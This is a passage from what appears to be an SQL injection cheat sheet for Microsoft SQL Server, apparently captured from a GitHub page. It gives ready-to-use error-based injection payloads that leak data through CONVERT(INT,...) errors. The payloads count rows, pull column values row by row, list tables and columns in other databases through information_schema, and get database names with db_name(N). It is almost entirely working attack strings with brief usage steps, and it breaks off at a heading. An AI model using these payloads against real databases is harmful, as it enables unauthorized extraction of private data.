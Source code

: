 ```sql
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM table1)+CHAR(58)+CHAR(58)))--
```

Then, assuming the columns we wish to extract from are called column1 and column2:

```sql
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 column1+CHAR(58)+column2 FROM (SELECT top 1 column1 , column2 FROM table1 ORDER BY column1  ASC) sq ORDER BY column1  DESC)+CHAR(58)+CHAR(58)))--
```

The second top 1 should be incremented to extract subsequent rows:

```sql
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 column1+CHAR(58)+column2 FROM (SELECT top 2 column1, column2 FROM table1 ORDER BY column1 ASC) sq ORDER BY column1 DESC)+CHAR(58)+CHAR(58)))--
```

Extract tables from another database (change other_database and increase N):

```sql
1 AND 1=CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top N TABLE_NAME FROM other_database.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58)))--
```

Extract columns from another database (change other_database, other_table and increase N):

```sql
1 AND 1=CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top N column_name FROM other_database.information_schema.COLUMNS WHERE TABLE_NAME='other_table' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58)))--
```

See how many data entries there are in another database (change other_database and other_table):

 ```sql
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [other_database]..[other_table] )+CHAR(58)+CHAR(58)))--
```

Extract data from another database (change other_database, other_table, other_column and increase N):

```sql
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 other_column FROM (SELECT top N other_column FROM other_database..other_table ORDER BY other_column ASC) sq ORDER BY other_column DESC)+CHAR(58)+CHAR(58)))--
```

### Method 2 – Slower

Extract database names (replace N with a number starting from 1):

```sql
1 AND 1=CONVERT(INT,db_name(N))--
```

Extract first table name:
